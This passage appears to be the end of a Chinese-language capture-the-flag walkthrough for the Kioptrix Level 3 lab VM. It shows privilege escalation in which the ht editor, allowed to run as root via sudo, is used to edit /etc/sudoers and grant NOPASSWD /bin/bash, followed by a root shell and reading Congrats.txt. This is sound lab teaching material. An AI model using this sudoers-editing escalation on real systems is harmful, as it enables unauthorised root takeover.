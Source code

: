 -   使用`sudo -l ` 查看可操作的提权文件

-   ```shell
    loneferret@Kioptrix3:~$ sudo -l
    User loneferret may run the following commands on this host:
        (root) NOPASSWD: !/usr/bin/su
        (root) NOPASSWD: /usr/local/bin/ht
    loneferret@Kioptrix3:~$ 
    ```

-   提示可以用root权限来操作ht编辑器而无需输入密码

-   使用`sudo /usr/local/bin/ht`来打开编辑器。使用F3来打开一个需要编辑的文件，这里直接选择操作`/etc/sudoers`文件

-   ![image-20230608161311579](https://raw.githubusercontent.com/r0o983/images/main/image-20230608161311579.png)

-   使用F2保存，F10退出

-   添加一个新的bash环境到当前用户下来进行提权

-   使用`sudo -l`查看新的权限

-   ```shell
    loneferret@Kioptrix3:~$ sudo -l
    User loneferret may run the following commands on this host:
        (root) NOPASSWD: !/usr/bin/su
        (root) NOPASSWD: /usr/local/bin/ht
        (root) NOPASSWD: /bin/bash
    
    ```



### 成功获得root权限

```shell
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# whoami
root
root@Kioptrix3:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:0c:29:85:99:55 brd ff:ff:ff:ff:ff:ff
    inet 192.168.2.145/24 brd 192.168.2.255 scope global eth1
    inet6 fe80::20c:29ff:fe85:9955/64 scope link 
       valid_lft forever preferred_lft forever
root@Kioptrix3:~# cd /root/
root@Kioptrix3:/root# ls -lhai
total 52K
1007617 drwx------  5 root root 4.0K 2011-04-17 08:59 .
      2 drwxr-xr-x 21 root root 4.0K 2011-04-11 16:54 ..
1007620 -rw-------  1 root root    9 2011-04-18 11:49 .bash_history
1007619 -rw-r--r--  1 root root 2.2K 2007-10-20 07:51 .bashrc
1007624 -rw-r--r--  1 root root 1.3K 2011-04-16 08:13 Congrats.txt
 631788 drwxr-xr-x 12 root root  12K 2011-04-16 07:26 ht-2.0.18
1007622 -rw-------  1 root root  963 2011-04-12 19:33 .mysql_history
1007621 -rw-------  1 root root  228 2011-04-18 11:09 .nano_history
1007618 -rw-r--r--  1 root root  141 2007-10-20 07:51 .profile
1007623 drwx------  2 root root 4.0K 2011-04-13 10:06 .ssh
1007626 drwxr-xr-x  3 root root 4.0K 2011-04-15 23:30 .subversion
root@Kioptrix3:/root# cat Congrats.txt 
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.
```